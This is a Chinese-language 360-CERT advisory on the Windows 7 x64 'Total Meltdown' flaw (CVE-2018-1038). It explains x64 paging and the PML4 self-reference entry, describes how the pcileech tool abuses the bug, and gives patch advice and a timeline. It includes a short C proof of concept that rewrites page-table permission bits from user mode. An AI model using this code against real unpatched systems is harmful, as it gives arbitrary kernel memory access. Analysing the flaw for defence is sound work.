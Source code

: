 ```yaml
---
id: b58c185c339521ee4e31674d36cd36e3
title:  微软TotalMeltdown漏洞分析预警
tags: 
  - 安全资讯
  - 360CERT
---
```


#  微软TotalMeltdown漏洞分析预警

0x00 漏洞概述
---------


近日，微软2018年1月和2月的Windows7 x64 和 Windows Server 2008 R2安全补丁中被发现存在严重漏洞(Total Meltdown)，补丁中错误地将PML4权限设定成用户级，导致任意用户态进程可对系统内核进行任意读写。


360-CERT对此漏洞进行了相关的分析，建议相关受影响用户可以通过360安全卫士进行补丁升级。


0x01 漏洞影响面
----------


漏洞危害等级：高危


漏洞编号：CVE-2018-1038


影响版本：


Windows 7 x64 


Windows Server 2008 R2


0x02 x64分页原理
------------


Intel X64使用的是四级分页模式：PML4(Page Map Level 4)，PDPT(Page Directory Pointer)，PD(Page Directory)，PT(Page Table Entry)。


![enter image description here](https://p403.ssl.qhimgs4.com/t011ab99c318e8cd469.png "enter image title here")


每张表有512个条目，所以理论上64位CPU可以寻址512*512*512*512*4KB=256TB的内存，但是由于48位物理地址的限制，实际上有效的虚拟地址属于下面这两个范围：0至7FFF'FFFFFFFF(512GB*256)或FFFF8000'00000000至FFFFFFFF'FFFFFFFF(512GB*256)。


微软采取了一种称为self-ref entry(自引用条目)的技术，在最高级别的页表中有一个条目指向自己。在64位系统中，任意自引用条目使用的物理地址应该指向PML4基地址的物理地址，与CR3寄存器所指向的地址相同。


0x03 漏洞细节
---------


在Windows7 x64和Windows Server 2008 R2中，系统将PML4表中0x1ED这个固定位置存放指向自己的入口，对应的虚拟地址计算如下：



```
viraddr
=0xFFFF000000000000+(0x1ed<<12)+(0x1ed<<21)+ (0x1ed<<30)+ (0x1ed<<39)
=0xFFFFF6FB7DBED000

```
而安装完1月和2月安全更新后系统将虚拟地址0xFFFFF6FB7DBED000指向的内存权限错误地设置为用户态可读，漏洞原理如下。
四级分页结构:
PML4、PDPT、PD、PT


由于PML4自引用的权限位为可读可写


所以利用自引用，黑客可以任意修改PML4、PDPT、PD、PT中的任意数据


正常虚拟地址到物理地址的映射:


PML4-----PDPT-----PD-------PT----PAGE-----PAddr


利用自引用访问受保护的数据:


第一步修改页保护位(假设地址对应的PML4、PDPT、PD、PT对该用户来说都是可读可写，如果不，原理跟此一样)，首先想办法获得与该页对应的PTE(利用自引用)地址：


方法:
PML4-----PML4----PDPT------PD-----PT-------PTE


修改保护位为可读可写。


第二步：直接修改数据(由于第一步已经修改权限位，所以不会引发异常)


证明代码如下：



```
#include 
#include
#include 

#define QWORD unsigned long long

#define BASE 0xFFFF000000000000

#define PML4 0xFFFFF6FB7DBED000

#define PML4SELF_IDX 0x1ed

QWORD getAddr(QWORD base,QWORD pml4Idx,QWORD pdptIdx,QWORD pdIdx,QWORD ptIdx,QWORD offsetIdx);


void testAddr(unsigned char *p);

int main(int argc, char *argv)
{
    unsigned char *p = (unsigned char*)getAddr(BASE, PML4SELF_IDX, PML4SELF_IDX, PML4SELF_IDX, 1, 0);//到达PDPT

    testAddr(p);

    QWORD *pte = (QWORD *)getAddr(BASE, PML4SELF_IDX, PML4SELF_IDX, PML4SELF_IDX, PML4SELF_IDX, 8);
    printf("%ulld\n", *pte);
    *pte = (*pte | 7);

    testAddr(p);

    return 0;
}


QWORD getAddr(QWORD base, QWORD pml4Idx, QWORD pdptIdx, QWORD pdIdx, QWORD ptIdx, QWORD offsetIdx) {
    return base = base + offsetIdx + (ptIdx<<12) + (pdIdx<<21) + (pdptIdx<<30) + (pml4Idx<<39);
}

void testAddr(unsigned char *p) {
    __try {
        int i = *p;
        printf("access 0x%p sucess\n", p);
    }
    __except (EXCEPTION_EXECUTE_HANDLER) {
        printf("access 0x%p error\n", p);
    }
}

```
![enter image description here](https://p403.ssl.qhimgs4.com/t019494c3e182c1697b.png "enter image title here")


0x04 pcileech工具原理
-----------------


漏洞作者根据漏洞原理将内存读取工具pcileech更新到了3.2版本使得其能够利用该漏洞。


![enter image description here](https://p403.ssl.qhimgs4.com/t01b8752a0130afa3a0.png "enter image title here")


通过在0x10000和0x2f000之间插入32页来设置页表结构。0x10000页面将作为PDPT。0x10000到0x2e000之间的另外31页将作为PD，其将映射2MB页的物理内存。使用当前算法这将允许映射最大31*512*2MB=31744MB的物理地址空间，大约30GB。


0x05 修复建议
---------


1.使用360安全卫士扫描系统漏洞并修复


![enter image description here](https://p403.ssl.qhimgs4.com/t01ce8bed7db01c9917.jpeg "enter image title here")


2.下载专用检测工具：<http://down.360safe.com/totalmeltdown_fix.exe>


![enter image description here](https://p403.ssl.qhimgs4.com/t01c78131bb1468be2b.png "enter image title here")


0x06 时间线
--------


**2018-01-03** 微软官方发布安全更新（KB4056897）


**2018-02-13** 微软官方发布安全更新（KB4074587）


**2018-03-13** 微软官方发布安全更新（KB4088878），360安全卫士推送相关补丁


**2018-03-27** TotalMeltdown漏洞细节被公开


**2018-03-30** 360-CERT发布漏洞预警分析报告


**2018-03-30** 360安全卫士发布独立修复工具


0x07 参考链接
---------


1. <https://blog.frizk.net/2018/03/total-meltdown.html>
2. <https://www.coresecurity.com/blog/getting-physical-extreme-abuse-of-intel-based-paging-systems-part-1>
3. <https://www.coresecurity.com/blog/getting-physical-extreme-abuse-of-intel-based-paging-systems-part-2-windows>
4. <https://github.com/ufrisk/pcileech>


